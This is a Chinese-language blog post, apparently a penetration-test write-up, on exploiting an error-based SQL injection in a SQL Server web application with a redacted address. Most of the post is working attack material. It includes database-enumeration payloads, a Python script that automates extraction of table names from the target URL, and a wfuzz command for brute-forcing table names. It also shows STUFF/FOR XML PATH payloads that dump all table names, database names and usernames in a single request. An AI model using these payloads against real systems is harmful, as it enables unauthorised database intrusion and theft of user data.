



## 背景

某次XX，发现一处SQL Server注入点

## 报错注入

SQL Server注入，一般也是先找库、再找表、再查字段、最终查询数据。

## 查库

1.查第一个：

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases)>0 --
```

2.NOT IN

```sql
id=1 and (SELECT top 1 Name FROM Master..SysDatabases where name not in ('master'))>0 --
```

其中，NOT IN的集合会不断增加，最终无法查出其他结果，那么这个集合就是所有的数据库名称。

## 查表

在这一步，我们就可以自动化实现了：

```python
import requests
import re

table_list = ['']

def get_sqlserver_table(table_list, table_num):
    for num in range(0,table_num):
        # print("','".join(table_list))
        sql_str = "and (select top 1 name from [xxxx].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in ('{}'))>0".format("','".join(table_list))
        url = "http://www.xxxxx.cn/x.aspx?cid=1' {} AND 'aNmV'='aNmV".format(sql_str)
        r = requests.get(url, headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.87 Safari/537.36'})
        res = re.search(r'\'(.*)\'', r.content.decode('utf-8'),  re.M|re.I)
        table_name = str(res.group(1))
        table_list.append(table_name)
        print("[{}] - TableName: {}".format(str(r.status_code), table_name))
if __name__ == "__main__":
    get_sqlserver_table(table_list, 16)

```

当取得第16个的时候，还是没有出现用户表、管理员表等，而且网站抛出了错误，无法继续取，突然没有其他办法了。




先来分析一下语句：

```sql
cid =1 and (select top 1 name from [数据库名称].sys.all_objects where type='U' AND is_ms_shipped=0 and name not in (''))>0 AND 'aNmV'='aNmV
```

这是第一次请求的Payload，集合这里我写个空，不管怎样，集合都可以取得第一个表名。第二个、第三个表名都会向集合增加，以此类推，通过SQLMAP判断，有146个表。

到第16个因为原始语句有干扰，不能继续取得后续的表名，但我不想放弃。

于是，又想到通过FUZZ的方式：


```
wfuzz -c -z file,/usr/shar/sqlmap/data/common-table.txt --sc 500 "http://www.xxx/xxx?cid=1%27%20and%20%20(select%20top%201%20COLUMN_NAME%20from%20xxx.information_schema.columns%20where%20TABLE_NAME=%27Hsoft_FUZZ%27%20and%20COLUMN_NAME%20not%20in(%27x%27))%3E0%20and%20%27s%27=%27s"
```

- `Hsoft_` 为前缀
- sc 500 只匹配错误页面（报错注入）

但是字典貌似不够强大，我就去查询SQL Server有没有类似将多行数据合并为一行的办法。


我知道MySQL中有GroupConcat类似的函数，但SQL Server没有，这点很遗憾~ 没有继续使用SQL Map是因为SQLMAP根本无法取得任何一个表名，期间我也分析了SQL MAP的Payload，请求实在是多，就放弃了这条线。


## STUFF与XML Path

STUFF字符串函数是将字符串插入到另一个字符串中。它会删除开始位置第一个字符串中的指定长度的字符，然后将第二个字符串插入到开始位置的第一个字符串中，语法如下。

```sql
STUFF（<character_expression>，<开始>，<长度>，<character_expression>）
<character_expression>
```

参数是给定的字符串数据，可以是字符或二进制数据的常量，变量或列。`<start>`参数是一个整数值，指定开始删除和插入的位置，可以是BIGINT类型。如果`<开始>`或`<长度>`参数为负数，则返回NULL字符串。如果`<start>`参数比第一个`<character_expression>`长，则返回一个NULL字符串。 <length>参数可以是BIGINT类型，它是一个整数，指定要删除的字符数。如果<length>比第一个`<character_expression>`长，则删除发生到最后一个`<character_expression>`中的最后一个字符。


STUFF最常见的用途莫过于结合FOR XML PATH对返回JSON字符串的拼接。首先利用FOR XML PATH则返回XML格式的字符串，我们将FOR XML PATH添加到查询的末尾，此时允许我们将查询的结果作为XML元素输出，元素名称包含在PATH参数中。

如：

```sql
SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1
```

类似的SQL可能会返回多行数据，因此可以通过STUFF与XML PATH集合使用：


- 将查询到的数据转换成行，以逗号隔开，以`[]`包裹


```sql
SELECT STUFF((SELECT  '[' + name + '],'  
FROM(SELECT name FROM dbo.base_pay_type WHERE is_enabled = 1) a  FOR  XML PATH('')  ), 1,0, '') AS Name 
```



直接套用到注入场景：

```sql
SELECT STUFF((SELECT  '[' + name + '],'  FROM(SELECT name from 数据库名称.sys.all_objects where type='U' AND is_ms_shipped=0) a  FOR  XML PATH('')  ), 1,0, '')
```


在sql shell中直接执行即可返回所有表名：



所有表名以`[表名],`分割。

通过这个办法，我们可以套用很多需要多次请求注入的需求，如：

- 取得某个表10个用户名

```sql
SELECT STUFF((SELECT  '[' + username + '],'  FROM(SELECT Top 10 username from 数据库名称.User ) a  FOR  XML PATH('')  ), 1,0, '')
```

- 取得所有数据库名

```sql
SELECT STUFF((SELECT  '[' + Name + '],'  FROM(SELECT  Name from Master..SysDatabases ) a  FOR  XML PATH('')  ), 1,0, '')
```

其他场景自行想象！
